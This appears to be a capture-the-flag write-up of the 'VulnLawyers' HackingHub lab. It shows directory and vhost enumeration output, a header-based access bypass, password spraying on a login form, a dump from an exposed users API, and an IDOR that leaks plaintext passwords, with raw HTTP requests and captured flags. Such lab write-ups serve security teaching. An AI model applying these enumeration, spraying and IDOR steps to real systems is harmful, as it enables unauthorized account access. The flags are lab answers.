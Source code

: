 # Scope

```bash
mazer.ctfio.com
```

# Enumeration

## Dirsearch

```bash
Target: https://mazer.ctfio.com/

[05:56:24] Starting: 
[05:56:28] 301 -  178B  - /js  ->  https://mazer.ctfio.com/js/              
[05:57:13] 301 -  178B  - /css  ->  https://mazer.ctfio.com/css/              
[05:57:25] 403 -  564B  - /images/                                          
[05:57:25] 301 -  178B  - /images  ->  https://mazer.ctfio.com/images/      
[05:57:28] 403 -  564B  - /js/                                              
[05:57:31] 302 -    1KB - /login  ->  /denied                               
[05:57:31] 302 -    1KB - /login/  ->  /denied 
```

## Vhosts

```bash
data                    [Status: 200, Size: 109, Words: 3, Lines: 1, Duration: 177ms]
:: Progress: [1907/1907] :: Job [1/1] :: 146 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/VunLawyers%20(HackingHub)/Images/image%20(1).png?raw=true)

## Website functionality

![image.png](attachment:1afb9ffa-ae39-4552-86aa-64aa2b4f35fc:image.png)

- X-Forwarded-For
- SSRF

```bash
               <p>Access to this portal can now be found here <a href=/lawyers-only">/lawyers-only</a></p>
                <p>[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]</p>
```

## Investigating `lawyers-only`  endpoint

- login form

```bash
POST /lawyers-only-login HTTP/1.1
Host: mazer.ctfio.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: https://mazer.ctfio.com
Referer: https://mazer.ctfio.com/lawyers-only-login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

email=admin&password=admin
```

- ~~SQL injection~~
- ~~NoSQL injection~~
- Password Spraying
- Username Enumeration

```bash
email=jaskaran.lowe@vulnlawyers.ctf&password=summer
```

## VulnLaywers API (data vhost)

## Dirsearch

```bash
Target: https://data.zeus.ctfio.com/

[06:48:12] Starting: 
[06:48:54] 200 -  396B  - /users
```

- `Machine time out, use next machine`
- We were able to dump the users

# Authenticated access to the portal

```bash
GET /lawyers-only-profile-details/2 HTTP/1.1
Host: zeus.ctfio.com
Cookie: token=7BCC07AAE3CCD9CD66223DF6D6932582
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Referer: https://zeus.ctfio.com/lawyers-only-profile
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: keep-alive
```

- This endpoint is vulnerable to IDOR on the ID parameter that exposes victim’s full passwords

```bash
HTTP/1.1 200 OK
Server: nginx/1.22.0 (Ubuntu)
Date: Thu, 15 May 2025 11:19:45 GMT
Content-Type: application/json
Connection: keep-alive
Content-Length: 155

{"id":2,"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.ctf","password":"q2V944&#2a1^3p","flag":"[^FLAG^938F5DC109A1E9B4FF3E3E92D29A56B3^FLAG^]"}
```

```bash

There are no more cases

[^FLAG^B38BAE0B8B804FCB85C730F10B3B5CB5^FLAG^]
```
